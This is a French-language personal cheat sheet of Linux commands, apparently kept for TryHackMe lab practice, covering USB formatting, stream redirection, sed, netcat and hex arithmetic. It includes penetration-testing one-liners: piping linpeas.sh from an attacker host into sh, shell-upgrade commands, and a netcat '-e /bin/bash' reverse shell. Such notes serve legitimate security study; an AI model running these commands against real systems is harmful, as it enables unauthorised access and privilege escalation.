 N'oublie pas la commande man  

python -m http.server 8000 : Lancer un serveur python local

Pour récupérer le fichier : `curl [vpnhostIP]/linpeas.sh| sh` pour l'executer directement

wget : récupérer des fichiers via internet.

Formater cle usb :  
df : lister toute les partitions.  
sudo umount /dev/sd.....  
sudo mkfs.nfts /dev/sd.....

Quand ya un souci de capacité sur une clé usb :

**Étape 1. Supprimer toutes les partitions**

- Ouvrez un terminal et tapez **sudo su** .
- Tapez **fdisk -l** et notez la lettre de votre clé USB.
- Tapez **fdisk /dev/sdx** (en remplaçant x par votre lettre de lecteur).
- Tapez **d** pour procéder à la suppression d'une partition.
- Tapez **1** pour sélectionner la 1ère partition et appuyez sur Entrée.
- Tapez **d** pour procéder à la suppression d'une autre partition (fdisk devrait automatiquement sélectionner la deuxième partition).

**Étape 2. Créer une nouvelle partition**

- Tapez **n** pour créer une nouvelle partition.
- Tapez **p** pour rendre cette partition primaire et appuyez sur Entrée.
- Tapez **1** pour en faire la première partition, puis appuyez sur Entrée.
- Appuyez sur Entrée pour accepter le premier cylindre par défaut.
- Appuyez à nouveau sur Entrée pour accepter le dernier cylindre par défaut.
- Tapez **w** pour écrire les nouvelles informations de partition sur le disque USB.
- Tapez **mkfs.vfat -F 32 /dev/sdx1** (en remplaçant x par la lettre de votre clé USB).

adduser : créer un user

Pour démarrer le vpn de thm, faire, dans download, sudo openvpn name.ovpn &. Le & c'est pour le lancer en arrière plan. Puis faire entrer

Pour associer une adresse ip à un mot pour plus de rapidité, sudo nano /etc/host puis tu fais comme pour les autres, tu suis cette syntaxe :

[111.111.111.111](http://111.111.111.111 "http://111.111.111.111")            target

/dev/null : "trou noir" du terminal. En outre c'est pour supprimer des trucs.

Tu peux supprimer le résultat d'une commande (ne pas l'afficher): commande > /dev/null.

Tu peux aussi ne pas mettre d'entrée. Par exemple si j'ai un script qui affiche mon input, je fais ./programme.sh < /dev/null

Ou encore supprimer les erreurs : commande 2> /dev/null  
rappel :

En langage Unix, il existe trois flux standard :

- 0 : L'entrée standard (stdin) où les commandes lisent les données.
- 1 : La sortie standard (stdout) où les commandes affichent les résultats.
- 2 : Le flux d'erreur standard (stderr) où les commandes affichent les messages d'erreur.

cat ~/.*history | less : voir l'historique des commandes tapées

python -c 'import pty;pty.spawn("/bin/bash")' : Trois commandes (pas liées) à faire si tu est dans un shell réduit.

echo os.system('/bin/bash')  
/bin/sh -i

whoami : affiche l'utilisateur courant

|||
|---|---|
|Symbol / Operator|Description|
|&|Cet opérateur vous permet d'exécuter des commandes en arrière-plan de votre terminal.( à mettre après la commande)|
|&&|Cet opérateur vous permet de combiner plusieurs commandes dans une seule ligne de votre terminal.|
|>|Cet opérateur est un redirecteur - ce qui signifie que nous pouvons prendre la sortie d'une commande (comme l'utilisation de cat pour sortir un fichier) et la diriger ailleurs.|
|>>|Cet opérateur a la même fonction que l'opérateur >, mais il ajoute la sortie au lieu de la remplacer (ce qui signifie que rien n'est écrasé)..|

**Sed :** Editeur de données dans fichier (utile pour faire des tâches automatisés)

1. **Remplacement de texte :**

- Syntaxe de base : `sed 's/ancien_mot/nouveau_mot/' fichier`
- Exemple : `sed 's/apple/orange/' fichier.txt` remplace la première occurrence de "apple" par "orange" dans le fichier `fichier.txt`.

2. **Remplacement de toutes les occurrences :**

- Ajouter le modificateur `g` pour remplacer toutes les occurrences : `sed 's/ancien_mot/nouveau_mot/g' fichier`

3. **Utilisation de délimiteurs différents :**

- Vous pouvez utiliser des délimiteurs autres que `/` pour éviter d'avoir à échapper les caractères spéciaux. Par exemple : `sed 's|ancien_mot|nouveau_mot|' fichier`

4. **Suppression de lignes :**

- Pour supprimer une ligne qui contient un certain motif, utilisez : `sed '/motif/d' fichier`

5. **Impression de lignes spécifiques :**

- Utilisez `sed -n` pour supprimer l'impression par défaut, puis ajoutez une règle pour imprimer des lignes spécifiques. Par exemple : `sed -n '10,20p' fichier` imprime les lignes de 10 à 20.

6. **Ajout de texte à la fin d'une ligne :**

- `sed 's/$/ texte_a_ajouter/' fichier` ajoute "texte_a_ajouter" à la fin de chaque ligne.

7. **Utilisation de scripts avec **`**sed**`** :**

- Vous pouvez également utiliser des scripts `sed` contenus dans des fichiers externes. Par exemple : `sed -f script.sed fichier`

8. **Modification en place du fichier :**

- Ajouter l'option `-i` pour modifier le fichier en place. Par exemple : `sed -i 's/ancien_mot/nouveau_mot/' fichier`

9. **Utilisation de expressions régulières :**

- `sed` supporte les expressions régulières étendues (ERE). Par exemple : `sed -E 's/[0-9]+/NUM/g' fichier` remplace tous les nombres par "NUM

**Netcat :** établir une connexion dans shell entre des machines.

```
-c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```

Attendre une connexion :

- `nc -lvp portnumber`

Se connecter :

- `nc address portnumber`

Executer un fichier quand on se connecte :

- `nc address portnumber -e filename` (on peut mettre /bin/bash pour que le listener puisse executer un shell sur ta session)

Charger un fichier text vers un fichier text distant :

- Dans la sessions listener : `nc -lvp portnumber > filetarget.txt`
- Dans la session connector : `nc address portnumber < contentfile.txt`
- Le contenu du contentfile.txt ira dans filetarget.txt

**Opérations mathématiques dans un shell**
- `printf "%x\n" $((0x7fffffffda70 - 0x24))`
- `printf "%d\n" 0x1f  `
- `printf "%020x" 123` Converti la valeur 123 en hex sur 20 bit
- `printf "%d\n" 0xFF`

Programmer une tâche ponctuelle
`at now + 20 minutes > firefox` lance firefox dans 20 minutes


